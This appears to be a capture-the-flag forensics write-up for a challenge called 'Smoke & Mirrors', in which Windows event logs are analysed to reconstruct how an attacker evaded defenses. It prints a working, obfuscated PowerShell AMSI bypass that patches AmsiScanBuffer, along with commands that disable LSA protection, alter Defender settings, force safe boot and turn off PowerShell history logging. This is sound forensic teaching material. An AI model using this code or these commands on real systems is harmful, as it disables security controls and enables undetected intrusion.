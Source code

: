 # Synopsis

In Smoke & Mirrors, players analyze the provided event logs and forensic artifacts to uncover how the attacker disabled or altered security features. They must identify the tools, commands, or scripts used to reduce visibility and reconstruct the methods the attacker used to operate undetected.

# Description

Byte Doctor Reyes is investigating a stealthy post-breach attack where several expected security logs and Windows Defender alerts appear to be missing. He suspects the attacker employed defense evasion techniques to disable or manipulate security controls, significantly complicating detection efforts.

Using the exported event logs, your objective is to uncover how the attacker compromised the system's defenses to remain undetected.

## Skills Required

- Basic Windows OS knowledge
## Skills Learned

- Understand and recognize malicious use of PowerShell cmdlets
- Analyze and interpret Windows Registry modifications
- Identify how attackers disable or tamper with Windows security features

# Solve

```
EvtxECmd.exe -f "C:\Users\murph\Downloads\OperationBlackout\smoke_and_mirrors\Microsoft-Windows-Powershell.evtx" --csv "C:\Users\murph\Downloads\OperationBlackout"

EvtxECmd.exe -f "C:\Users\murph\Downloads\OperationBlackout\smoke_and_mirrors\Microsoft-Windows-Powershell-Operational.evtx" --csv "C:\Users\murph\Downloads\OperationBlackout"

EvtxECmd.exe -f "C:\Users\murph\Downloads\OperationBlackout\smoke_and_mirrors\Microsoft-Windows-Sysmon-Operational.evtx" --csv "C:\Users\murph\Downloads\OperationBlackout"
```


# Flag 1
The attacker disabled LSA protection on the compromised host by modifying a registry key. What is the full path of that registry key?

```
HKLM\SYSTEM\CurrentControlSet\Control\LSA

The description for Event ID 1 from source Microsoft-Windows-Sysmon cannot be found. Either the component that raises this event is not installed on your local computer or the installation is corrupted. You can install or repair the component on the local computer.

If the event originated on another computer, the display information had to be saved with the event.

The following information was included with the event: 

-
2025-04-10 06:29:16.703
EV_RenderedValue_2.00
9540
C:\Windows\System32\reg.exe
10.0.26100.1882 (WinBuild.160101.0800)
Registry Console Tool
Microsoft® Windows® Operating System
Microsoft Corporation
reg.exe
"C:\WINDOWS\system32\reg.exe" add HKLM\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL /t REG_DWORD /d 0 /f
C:\WINDOWS\system32\
DESKTOP-M3AKJSD\User
EV_RenderedValue_13.00
1201878
1
High
MD5=47FC2471604EB7D760938BF31456B12D,SHA256=321590E79C53AA24B197F08A21A0329E5AB9F212B2BD748AF09A7BE6F838F585,IMPHASH=3B322244D4C64F3C932F94E6E3457771
EV_RenderedValue_18.00
9808
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
DESKTOP-M3AKJSD\User

The message resource is present but the message was not found in the message table

```

# Flag 2
Which PowerShell cmdlet controls Windows Defender?
```
Set-MpPreference
```

# Flag 3
The attacker loaded an AMSI patch written in PowerShell. Which function in the amsi.dll is being patched by the script to disable AMSI? Hint: The script in question imports 'kernel32.dll'

```
Creating Scriptblock text (1 of 1):
function Disable-Protection {
    $k = @"
using System;
using System.Runtime.InteropServices;
public class P {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    public static bool Patch() {
        IntPtr h = GetModuleHandle("a" + "m" + "s" + "i" + ".dll");
        if (h == IntPtr.Zero) return false;
        IntPtr a = GetProcAddress(h, "A" + "m" + "s" + "i" + "S" + "c" + "a" + "n" + "B" + "u" + "f" + "f" + "e" + "r");
        if (a == IntPtr.Zero) return false;
        UInt32 oldProtect;
        if (!VirtualProtect(a, (UIntPtr)5, 0x40, out oldProtect)) return false;
        byte[] patch = { 0x31, 0xC0, 0xC3 };
        Marshal.Copy(patch, 0, a, patch.Length);
        return VirtualProtect(a, (UIntPtr)5, oldProtect, out oldProtect);
    }
}
"@
    Add-Type -TypeDefinition $k
    $result = [P]::Patch()
    if ($result) {
        Write-Output "Protection Disabled"
    } else {
        Write-Output "Failed to Disable Protection"
    }
}

ScriptBlock ID: a40a685c-b1e5-495e-b69a-3542da1e6c22
Path: 
```

Important Parts
```
IntPtr h = GetModuleHandle("amsi.dll");
if (h == IntPtr.Zero) return false;

IntPtr a = GetProcAddress(h, "AmsiScanBuffer");
if (a == IntPtr.Zero) return false;
```

So in summary:
- The script **explicitly gets the address of `AmsiScanBuffer`** in `amsi.dll`.
- The patch is applied at that address.
- This clearly shows **`AmsiScanBuffer`** is the function being patched.

# Flag 4

```
bcdedit /set safeboot network
```

![](Images/Pasted%20image%2020250523094937.png)

# Flag 5
Which PowerShell command did the attacker use to disable PowerShell command history logging?

Most common
- Set-PSReadLineOption
- HistorySavePath
- MaximumHistoryCount
-
![](Images/Pasted%20image%2020250523095138.png)

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing
```

![](Images/Pasted%20image%2020250523095306.png)